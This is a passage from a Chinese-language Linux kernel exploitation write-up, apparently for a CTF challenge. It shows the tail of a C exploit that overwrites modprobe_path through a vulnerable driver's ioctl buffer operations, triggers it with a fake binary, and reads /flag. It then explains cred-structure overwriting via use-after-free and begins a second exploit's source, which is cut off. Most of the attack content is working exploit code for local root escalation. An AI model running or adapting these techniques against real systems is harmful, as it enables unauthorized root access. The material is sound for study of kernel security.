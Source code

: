 ```assembly
    close(dev_fd[1]);

    data.ptr[0] = kernel_offset + MODPROBE_PATH - 0x10;
    data.offset = 0;
    data.length = 0x8;

    editBuf(dev_fd[2], &data);
    allocBuf(dev_fd[2], &data);
    allocBuf(dev_fd[2], &data);

    strcpy((char *) &data.ptr[2], ROOT_SCRIPT_PATH);
    data.length = 0x30;
    editBuf(dev_fd[2], &data);

    /* trigger the fake modprobe_path */
    system("echo -e '\\xff\\xff\\xff\\xff' > /home/fake");
    system("chmod +x /home/fake");
    system("/home/fake");

    
    char flag[0x100];
    memset(flag, 0, sizeof(flag));

    size_t flag_fd = open("/flag", O_RDWR);

    read(flag_fd, flag, sizeof(flag));
    printf("%s\n", flag);

    return 0;
}
```

### 利用 UAF 修改子进程的 cred 完成提权

**直接修改子进程的 cred 完成提权**，**通过 UAF 修改该进程的 cred 结构体的 uid、gid 为 0**

但是**此种方法在较新版本 kernel 中已不可行，我们已无法直接分配到 cred_jar 中的 object**，这是因为 cred_jar 在创建时设置了 `SLAB_ACCOUNT` 标记，在 `CONFIG_MEMCG_KMEM=y` 时（默认开启）**cred_jar 不会再与相同大小的 kmalloc-192 进行合并**

```assembly
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sched.h>


typedef struct data{
    size_t *ptr;
    unsigned int offset;
    unsigned int length;
}Data;


void allocBuf(int dev_fd, Data *data){
    ioctl(dev_fd, 0x1111111, data);
}


void editBuf(int dev_fd, Data *data){
```